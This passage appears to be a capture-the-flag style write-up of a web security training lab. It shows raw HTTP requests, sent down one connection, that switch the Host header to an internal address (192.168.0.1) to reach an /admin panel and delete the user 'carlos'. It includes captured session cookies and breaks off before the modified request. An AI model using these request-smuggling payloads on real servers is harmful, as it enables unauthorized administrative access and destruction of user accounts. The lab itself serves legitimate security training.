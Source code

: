         The action attribute (/admin/delete)

        The name of the input (username)

        The csrf token.

    On the second tab in your group, use these details to replicate the request that would be issued when submitting the form. The result should look something like this:
    POST /admin/delete HTTP/1.1
    Host: 192.168.0.1
    Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
    Content-Type: x-www-form-urlencoded
    Content-Length: CORRECT

    csrf=YOUR-CSRF-TOKEN&username=carlos

    Send the requests in sequence down a single connection to solve the lab.

PoC:

group 1 req1:
```html
GET / HTTP/1.1
Host: 0aae006e04257e3c806c8a0800fd00c1.h1-web-security-academy.net
Cookie: session=EQ0hzPiv3E00DFuSIkXqA43dCFAtqT8v; _lab=47%7cMC0CFQCUROwFAAqB8VX5%2fOSluTU9XSi6ugIUSKMGnamxdoXGHc%2flLYKE09zkuPTtEb3AgXlzMRISheJ9UxDubZDZCgfhcVaZsQNqwL0H8ahgl%2bOkfn7XMzv1Owwxs3s%2fyiVPyulNBdu4FumDzxef%2bNhfd3ZyNII4tOGHPQKxez%2frKR5kPRRU
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers
Connection: keep-alive


```

group 1 req2:
```html
GET /admin HTTP/1.1
Host: 192.168.0.1
Cookie: session=EQ0hzPiv3E00DFuSIkXqA43dCFAtqT8v; _lab=47%7cMC0CFQCUROwFAAqB8VX5%2fOSluTU9XSi6ugIUSKMGnamxdoXGHc%2flLYKE09zkuPTtEb3AgXlzMRISheJ9UxDubZDZCgfhcVaZsQNqwL0H8ahgl%2bOkfn7XMzv1Owwxs3s%2fyiVPyulNBdu4FumDzxef%2bNhfd3ZyNII4tOGHPQKxez%2frKR5kPRRU


```

modified group 1 req 2:
